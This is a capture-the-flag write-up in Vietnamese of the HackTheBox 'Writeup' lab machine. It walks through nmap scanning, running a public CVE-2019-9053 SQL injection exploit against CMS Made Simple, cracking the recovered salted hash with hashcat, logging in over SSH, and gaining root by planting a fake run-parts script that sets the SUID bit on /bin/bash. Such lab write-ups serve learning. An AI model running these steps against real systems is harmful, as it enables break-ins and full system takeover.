

- Ip: 10.10.10.138
- Scan xem có gì: nmap -T4 -sV 10.10.10.138


- nmap -T4 -sC  10.10.10.138


- Có cổng 20 và cổng 80 mở 


- Truy cập vào website, đọc thì thấy web được bảo vệ bởi công nghệ chống dos, không dùng dirsearch được. 
- Scan cổng 80: thử truy cập http://10.10.10.138/writeup.

- Có nội dung trong đấy 
- Inspect ra xem 

```
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```
- Phiên bản CMS made simple 2019 search xem có lỗ hổng nào không: CVE:2019-9053
<a href="https://www.exploit-db.com/exploits/46635">Exploit  CVE-2019-9053</a>
- Sau khi tải xuống 46635 
- Chạy lệnh: python2 46635 -u http://10.10.10.138/writeup/  Để khai thác 


```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr5u
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
- Có vẻ không crack được dùng hashcat vậy.
```
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash 
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt
(20 | md5($salt.$pass)          Raw Hash salted and/or iterated)
```


- pass: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
- sau khi crack được: kết nối ssh với username: jkr pass:  raykayjay9
- Ra được flag user 

- flag user: 68a7de4f87fb76791e79057ccf57176b
- sau khi lấy được flag user, tiến hành nâng quyền root

- jkr thuộc nhóm người dùng staff, nhóm này có quyền thêm sửa usr/local/ mà không cần quyền root.
<a href="https://wiki.debian.org/SystemGroups">System Groups</a>
- Tiến hành bắt tiến trình xem có gì thuộc usr/local đang chạy không. 
<a href="https://github.com/DominicBreuker/pspy">pspy</a>
- dùng lệnh scp pspy32 jkr@10.10.10.138:/tmp để tải file pspy lên 

- Vào tmp cấp quyền thực thi rồi chạy ./pspy32.

- tiến hành đăng nhập ssh ở một terminal khác.
```
2024/08/05 05:12:01 CMD: UID=0    PID=2811   | sshd: [accepted]  
2024/08/05 05:12:16 CMD: UID=0    PID=2812   | sshd: jkr [priv]  
2024/08/05 05:12:16 CMD: UID=0    PID=2813   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2024/08/05 05:12:16 CMD: UID=0    PID=2814   | run-parts --lsbsysinit /etc/update-motd.d 
2024/08/05 05:12:16 CMD: UID=0    PID=2815   | /bin/sh /etc/update-motd.d/10-uname 
2024/08/05 05:12:16 CMD: UID=0    PID=2816   | sshd: jkr [priv]  
2024/08/05 05:12:17 CMD: UID=1000 PID=2817   | sshd: jkr@pts/1   

```
- Để ý thấy có run-part đang chạy. Mà thuộc /usr/local mà saff có quyền chỉnh sửa. Sửả nó :))) 
```
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-
parts
chmod +x /usr/local/bin/run-parts
```
Cấp quyền cho u: owner và o: other cho /bin/bash 